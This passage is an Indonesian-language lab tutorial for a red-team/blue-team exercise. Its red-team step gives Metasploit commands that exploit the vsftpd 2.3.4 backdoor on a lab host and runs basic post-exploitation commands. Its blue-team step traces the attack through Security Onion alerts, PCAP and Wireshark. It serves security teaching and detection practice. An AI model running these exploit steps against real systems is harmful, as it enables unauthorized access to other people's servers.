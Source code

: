 #### **7.2. Kegiatan 3: Pelaksanaan Serangan (Peran Red Team)**

Ikuti langkah-langkah ini di terminal **Kali Linux**.

1.  Mulai Metasploit: `msfconsole`
2.  Cari dan gunakan eksploit:
    ```bash
    msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
    ```
3.  Atur target:
    ```bash
    msf6 exploit(...) > set RHOSTS 192.168.100.101
    ```
4.  Jalankan serangan:
    ```bash
    msf6 exploit(...) > exploit
    ```
5.  **Setelah mendapatkan shell**, jalankan beberapa perintah pasca-eksploitasi untuk menghasilkan lebih banyak data bagi pembela:
    ```bash
    # Verifikasi akses
    whoami
    id

    # Buat file sebagai bukti kompromi
    echo "Blue team was here" > /tmp/compromised.txt

    # Keluar dari shell
    exit
    ```

#### **7.3. Kegiatan 4: Analisis dan Investigasi (Peran Blue Team)**

Sekarang, buka dasbor **Security Onion**. Kita akan memulai investigasi kita.

1.  **Analisis Peringatan Awal (NIDS)**:

      * Buka halaman **Alerts**.
      * Atur rentang waktu ke **Last 15 minutes** (atau rentang yang sesuai).
      * Anda akan melihat beberapa alert baru. Filter berdasarkan IP tujuan `192.168.100.101`.
      * Anda akan menemukan alert yang sangat mencurigakan, seperti:
          * `ET EXPLOIT VSFTPD 2.3.4 Backdoor Login`
          * `ET POLICY Executable Server Command in FTP Command Channel`
      * Ini adalah **Indikator Awal Kompromi (Initial Indicator of Compromise)**.

2.  **Drill Down: Dari Alert ke PCAP**:

      * Klik pada alert `ET EXPLOIT VSFTPD`. Ini akan membuka detail alert.
      * Di dalam detail, cari ikon kecil berbentuk sirip hiu (🦈) atau tulisan `pcap`. Klik ikon ini.
      * **PENTING**: Security Onion akan mengunduh file `.pcap` yang berisi rekaman penuh dari sesi jaringan yang memicu alert tersebut.
      * Buka file `.pcap` ini dengan **Wireshark** (sudah terinstal di Kali).
      * Di Wireshark, klik kanan pada salah satu paket dan pilih **Follow \> TCP Stream**.
      * Anda akan dapat melihat dengan jelas komunikasi antara penyerang dan server FTP, termasuk *payload* berbahaya yang dikirim. Ini adalah bukti forensik yang tak terbantahkan.
